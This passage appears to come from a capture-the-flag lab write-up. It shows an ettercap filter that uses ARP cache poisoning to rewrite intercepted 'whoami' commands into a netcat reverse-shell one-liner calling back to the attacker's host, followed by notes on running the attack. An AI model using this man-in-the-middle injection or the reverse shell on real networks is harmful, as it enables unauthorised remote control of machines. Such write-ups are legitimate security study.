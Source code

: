 ```txt
if (ip.proto == TCP && tcp.src == 4444 && search(DATA.data, "whoami") ) {
	log(DATA.data, "/root/ettercap.log");
	replace("whoami", "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.12.66 4444 >/tmp/f" );
	msg("###### ETTERFILTER: substituted 'whoami' with reverse shell. ######\n");
}
```

We go on and compile it with etterfilter and  then disable the firewall to allow incoming connections.

![image](/assets/img/Posts/l2mac/rev-payload.png)

For this to work, we will need a `backgrounded netcat session` in our terminal to listen for the connection where we will get the reverse shell and then perform the `ARP cache poisoning attack`. we will use a simple bash one-liner revershell command, we don't have to go too far, i already a firefox extension `hacktools`  with all basic crucial linux commands.
>Things didn't go well and it looked like no command was working, I mean not really working but something was happening in the background that I did not know. I even tried to use a simple `cat /root/root.txt` but still no results.

Finally come back and used the payload:

![image](/assets/img/Posts/l2mac/rev-payload-1.png)

After compiling and running the ettercap, following through the output, we find the message that we've put in the payload to alert us on successful execution of the payload

![image](/assets/img/Posts/l2mac/rev-etter.png)
